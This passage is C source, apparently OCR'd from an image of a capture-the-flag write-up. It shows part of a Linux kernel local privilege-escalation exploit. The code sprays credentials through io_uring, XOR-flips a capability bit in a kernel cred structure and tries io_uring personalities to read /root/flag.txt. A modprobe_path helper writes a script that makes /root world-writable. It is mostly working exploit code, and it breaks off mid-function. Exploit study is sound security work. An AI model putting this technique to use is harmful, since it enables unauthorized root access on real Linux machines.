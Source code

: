 ```
    cfd[2] = cfd_next++; // predicted

    char buf[0x200];
    memset(buf, 'X', sizeof(buf));
    EXIT_ON_ERR(write(cfd[1], &buf, sizeof(buf)) < 0); // does not matter what to write, just link cfd[1]->str := cfd[2]
}

void modprobe_hax() {
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/roooot");
    system("chmod +x /tmp/roooot");
    system("echo -ne '#!/bin/sh\nchmod 777 -R /root\necho wiki' > /tmp/w\n");
    system("chmod +x /tmp/w");
    system("/tmp/roooot");
    return;
}

int main() {
    setbuf(stdout, 0);

    basic_setup();
    leak_kheap();

    struct io_uring ring;
    io_uring_queue_init(1, &ring, 0);
    alloc_n_creds(&ring, N_CREDS);

    find_cred();
    printf("[*] cred_addr: 0x%llx\n", cred_addr);

    puts("[*] flipping bit");
    arbxor(cred_addr + 0x38, 0x02); // CAP_DAC_SEARCH

    puts("[*] bruting creds");
    int flag_fd = -1;
    for (size_t i = 0; i < N_CREDS; ++i) {
        // printf("[*] personality: %d", personalities[i]);

        struct io_uring_sqe* sqe = io_uring_get_sqe(&ring);
        io_uring_prep_openat(sqe, -1, "/root/flag.txt", O_RDONLY, 0);
        sqe->personality = personalities[i];

        io_uring_submit(&ring);

        struct io_uring_cqe* cqe;
        io_uring_wait_cqe(&ring, &cqe);

        if (cqe->res >= 0) {
            puts("[*] !!!!!!!!! SUCCESS");
            flag_fd = cqe->res;
            break;
        } else {
            // printf("personality %d, error: %s\n", personalities[i], strerror(abs(cqe->res)));
        }

        io_uring_cqe_seen(&ring, cqe);
    }

    if (flag_fd > 0) {
        char flag[0x40] = {0};
        read(flag_fd, flag, sizeof(flag));
        printf("%s\n", flag);
    } else {
```